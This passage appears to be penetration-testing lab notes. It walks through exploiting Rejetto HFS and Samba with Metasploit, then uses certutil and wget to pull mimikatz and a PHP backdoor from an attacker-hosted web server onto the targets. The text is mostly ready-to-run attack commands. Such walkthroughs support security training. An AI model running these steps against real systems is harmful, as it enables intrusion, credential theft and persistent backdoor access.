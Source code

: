 **Gain access to the target systems**

```shell
# Port scanning with Nmap
ping -c 1 <target_IP>
nmap -sV <target_IP>
# Gain access to the system
searchsploit rejetto
service postgresql start && msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target_IP>
exploit
```

**Post exploitation**

```shell
# In this case, we will be transferring the mimikatz.exe executable found under the /usr/share/windows-resources/mimikatz/x64 directory on the Kali Linux system.
cd /usr/share/windows-resources/mimikatz/x64

# We can then start a web server with Python3 in this directory
python3 -m http.server 80

# We can now navigate back to the meterpreter session on the target system, navigate to the C:\ drive and create the Temp directory.
cd C:\\
mkdir Temp
cd Temp
shell

# We can now download the mimikatz.exe executable from the web server being hosted on the Kali Linux system 
certutil -urlcache -f http://<kali_IP>/mimikatz.exe mimikatz.exe
```

### 3.3. Transferring Files to Linux Targets

**Objective:** Exploit the vulnerable service using suitable Metasploit module and then transfer files to the Linux target by leveraging a web server running on the Kali machine.

**Gain access to the system**

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
# The Nmap scan reveals a vulnerable version of SAMBA running on port 445.
service postgresql start && msfconsole
use exploit/linux/samba/is_known_pipename
set RHOST <target_IP>
exploit
```

**Post exploitation** 

```shell
# We will be transferring the php-backdoor.php file found under /usr/share/webshells/php/ directory on the Kali machine.
cd /usr/share/webshells/php/
python3 -m http.server 80

# Navigate back to the command shell session on the target system and download the php-backdoor.php file from the web server being hosted on the Kali linux system
wget http://<kali_IP>/php-backdoor.php
```
